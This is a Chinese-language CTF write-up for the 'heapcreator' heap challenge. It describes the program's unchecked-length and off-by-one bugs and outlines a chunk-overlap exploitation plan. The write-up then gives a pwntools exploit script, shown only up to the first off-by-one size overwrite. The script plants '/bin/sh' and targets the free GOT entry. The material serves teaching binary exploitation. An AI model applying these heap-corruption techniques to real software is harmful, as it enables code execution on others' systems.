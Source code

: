 程序大概是一个自定义的堆分配器，每个堆主要有两个成员：大小与内容指针。主要功能如下

1. 创建堆，根据用户输入的长度，申请对应内存空间，并利用 read 读取指定长度内容。这里长度没有进行检测，当长度为负数时，会出现任意长度堆溢出的漏洞。当然，前提是可以进行 malloc。此外，这里读取之后并没有设置 NULL。
2. 编辑堆，根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**。
3. 展示堆，输出指定索引堆的大小以及内容。
4. 删除堆，删除指定堆，并且将对应指针设置为了 NULL。

### 利用

基本利用思路如下

1. 利用off by one 漏洞覆盖下一个chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

更加具体的还是直接看脚本吧。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')


def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")  # 0
create(0x10, "ddaa")  # 1
# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
```